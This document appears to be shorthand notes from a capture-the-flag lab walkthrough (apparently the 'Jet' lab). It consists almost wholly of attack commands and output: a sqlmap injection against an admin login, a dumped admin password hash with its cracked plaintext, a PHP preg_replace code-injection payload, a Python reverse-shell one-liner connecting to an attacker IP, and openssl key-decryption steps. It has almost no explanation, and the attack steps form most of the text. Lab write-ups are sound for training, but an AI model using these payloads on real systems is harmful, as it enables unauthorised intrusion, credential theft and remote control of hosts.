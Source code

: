 ```
dig @10.13.37.10 -x 10.13.37.10
securewebinc.jet
```

```
sqlmap -u "http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/dologin.php" --data="username=admin&password=foo" -p username --batch  
--dbms=mysql
```

```
+----+------------------------------------------------------------------+----------+
| id | password                                                         | username |
+----+------------------------------------------------------------------+----------+
| 1  | 97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084 | admin    |
+----+------------------------------------------------------------------+----------+
```

```
https://crackstation.net/
Hackthesystem200
```

```
swearwords[/mal/e]=phpinfo();&to=asd@asd&subject=asd&message=<p>mal</p>&_wysihtml5_mode=1

export RHOST="10.13.14.22";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

```
openssl rsa -in certificate.pem -out publickey.pem -outform PEM -pubout
openssl rsautl -decrypt -inkey privatekey.pem -in key.bin.enc -out key.bin

/usr/bin/gettext.sh
/var/log/nginx/access.log
/tmp/tmux-33
/etc/cron.daily/passwd
```
## Reference

- https://blog.csdn.net/m0_46391769/article/details/109406362
- https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4
- https://anonfiles.com/j5o622lay2/Jet_zip